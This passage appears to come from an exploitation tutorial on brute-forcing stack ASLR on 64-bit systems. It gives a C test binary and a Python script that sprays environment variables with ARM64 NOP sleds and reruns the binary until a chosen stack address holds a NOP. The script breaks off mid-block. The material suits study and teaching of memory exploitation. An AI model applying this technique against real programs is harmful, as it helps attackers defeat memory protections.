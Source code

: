 ### 64 bits stack brute-forcing

It's possible to occupy a big part of the stack with env variables and then try to abuse the binary hundreds/thousands of times locally to exploit it.\
The following code shows how it's possible to **just select an address in the stack** and every **few hundreds of executions** that address will contain the **NOP instruction**:

```c
//clang -o aslr-testing aslr-testing.c -fno-stack-protector -Wno-format-security -no-pie
#include <stdio.h>

int main() {
    unsigned long long address = 0xffffff1e7e38;
    unsigned int* ptr = (unsigned int*)address;
    unsigned int value = *ptr;
    printf("The 4 bytes from address 0xffffff1e7e38: 0x%x\n", value);
    return 0;
}
```

```python
import subprocess
import traceback

# Start the process
nop = b"\xD5\x1F\x20\x03" # ARM64 NOP transposed
n_nops = int(128000/4)
shellcode_env_var = nop * n_nops 

# Define the environment variables you want to set
env_vars = {
    'a': shellcode_env_var,
    'b': shellcode_env_var,
    'c': shellcode_env_var,
    'd': shellcode_env_var,
    'e': shellcode_env_var,
    'f': shellcode_env_var,
    'g': shellcode_env_var,
    'h': shellcode_env_var,
    'i': shellcode_env_var,
    'j': shellcode_env_var,
    'k': shellcode_env_var,
    'l': shellcode_env_var,
    'm': shellcode_env_var,
    'n': shellcode_env_var,
    'o': shellcode_env_var,
    'p': shellcode_env_var,
}

cont = 0
while True:
    cont += 1

    if cont % 10000 == 0:
        break
    
    print(cont, end="\r")
    # Define the path to your binary
    binary_path = './aslr-testing'

    try:
        process = subprocess.Popen(binary_path, env=env_vars, stdout=subprocess.PIPE, text=True)
        output = process.communicate()[0]
        if "0xd5" in str(output):
            print(str(cont) + " -> " + output)
```